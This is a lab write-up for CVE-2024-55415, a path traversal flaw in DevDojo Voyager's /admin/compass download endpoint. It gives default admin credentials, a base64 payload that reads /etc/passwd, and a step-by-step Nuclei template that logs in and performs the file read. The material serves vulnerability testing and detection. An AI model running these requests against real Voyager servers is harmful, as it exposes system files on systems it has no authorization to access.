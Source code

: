 # CVE-2024-55415: DevDojo Voyager <=1.8.0 - Arbitrary File Read

## Description:
DevDojo Voyager through 1.8.0 is vulnerable to authenticated path traversal at the /admin/compass.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2024-55415
- https://www.sonarsource.com/blog/the-tainted-voyage-uncovering-voyagers-vulnerabilities/

## Vulnerable Setup

- Execute the following commands to start a Laravel Voyager 1.8.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://your-ip:8000 to see the Laravel Voyager admin panel. This server requires authentication.

## Default Login   

Username: admin@admin.com

Password: password

# Exploitation Steps

- Navigate to your URL http://your-ip:8000/admin

- Enter the Default Credentials (admin@admin.com/password) as shown below.

![image](https://github.com/user-attachments/assets/7935b0f8-1966-44c9-9d35-21a8aac72e41)

- Navigate to Tools -> Compass in the Dashboard.

![image](https://github.com/user-attachments/assets/dd38f215-48e5-4aa5-81c0-7cb711d5881f)

- Send a GET request to the `/admin/compass?download=` Download endpoint with base64 encoded LFI Payload.

```bash
L2V0Yy9wYXNzd2Q=
```

![image](https://github.com/user-attachments/assets/3eb5494c-4b96-41e6-b777-b7b2f7abb559)

- Observe the LFI and the `/etc/passwd` File get's downloaded.

![image](https://github.com/user-attachments/assets/8b289257-e513-4b21-9c5b-d18019178dc2)

![image](https://github.com/user-attachments/assets/514ffd04-5e4a-4775-b53c-48780cbb0b6e)


# Steps to Write Nuclei Template

**Variables Section**

```yaml
variables:
  username: "admin@admin.com"
  password: "password"
```

- Defines the login credentials (username and password) as variables, which can be reused in requests.

**First Request: Retrieve CSRF Token**

```yaml
  - raw:
      - |
        GET /admin/login HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        part: body
        internal: true
        name: csrf
        group: 1
        regex:
          - 'name="_token" value="([a-zA-Z0-9]+)"'
```

- Sends a GET request to /admin/login to retrieve the login page.
- Extracts the CSRF token (_token) from the response body using a regular expression.
- Stores the extracted value in an internal variable named csrf for later use.

**Second Request: Perform Login**

```yaml
  - raw:
      - |
        POST /admin/login HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        _token={{csrf}}&email={{username}}&password={{password}}&

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'/admin</title>')"
          - "status_code == 302"
        condition: and
        internal: true
```

- Sends a POST request to `/admin/login` with:
  - Extracted `_token`
  - Username and password from the variables

- The matchers validate a successful login by checking:
  - The response body contains `</admin</title>` (indicating admin page access).
  - The response has a `302` status code, indicating a successful login and redirection.

**Third Request: Exploit Arbitrary File Read**

```yaml
  - raw:
      - |
        GET /admin/compass?download={{base64('/etc/passwd')}} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - regex('root:.*:0:0:', body)
          - status_code == 200
        condition: and
```

- Sends a GET request to `/admin/compass?download={{base64('/etc/passwd')}}` to attempt file retrieval.
- Looks for the phrase `root:.*:0:0:` in the response body, indicating successful file read.
- Ensures the response status is `200` OK.

## Nuclei Template URL : [CVE-2024-55415](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-55415.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2024-55415.yaml -u http://172.30.0.2:8000 -vv
```

![image](https://github.com/user-attachments/assets/17177e77-6302-400d-9568-9b48325bf189)
